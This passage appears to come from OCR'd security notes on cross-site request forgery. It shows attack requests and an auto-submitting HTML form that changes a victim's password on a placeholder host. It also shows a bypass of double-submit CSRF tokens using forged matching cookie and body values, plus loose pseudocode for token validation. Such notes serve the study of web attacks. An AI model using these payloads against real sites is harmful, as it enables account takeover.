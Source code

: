         - **Weak Token Integriti ( Reuse token )**
            
            ```html
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE
            (POST request body)
            new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
            ----------------------------------
            <html>
             <form method="POST" action="<https://email.example.com/password_change>" id"csrf-form">
             <input type="text" name="new_password" value="abc123">
             <input type="text" name="csrf_token" value="871caef0757a4ac9691aceb9aad8b65b ">
             <input type='submit' value="Submit">
            </form>
             <script>document.getElementById("csrf-form").submit();</script>
            </html>
            --------------------------------------------------------------
            ## Expected Code
            def validate_token():
             if request.csrf_token:
            	 if (request.csrf_token in valid_csrf_tokens):
            			 pass
            	 else:
            		 throw_error("CSRF token incorrect. Request rejected.")
            [...]
            def process_state_changing_action():
            	 validate_token()
            	 execute_action()
            ```
            
        - **Bypass Double submit CSRF tokens**
            
            ```python
            # Valid 
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=871caef0757a4ac9691aceb9aad8b65b
            (POST request body)
            new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
            --------------------------
            # Invalid
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=1aceb9aad8b65b871caef0757a4ac969
            (POST request body)
            new_password=abc123&csrf_token=871caef0757a4ac9691aceb9aad8b65b
            ---------------------------------------
            # Bypass 
            POST /password_change
            Host: email.example.com
            Cookie: session_cookie=YOUR_SESSION_COOKIE; csrf_token=not_a_real_token
            (POST request body)
            new_password=abc123&csrf_token=not_a_real_token
            ```
            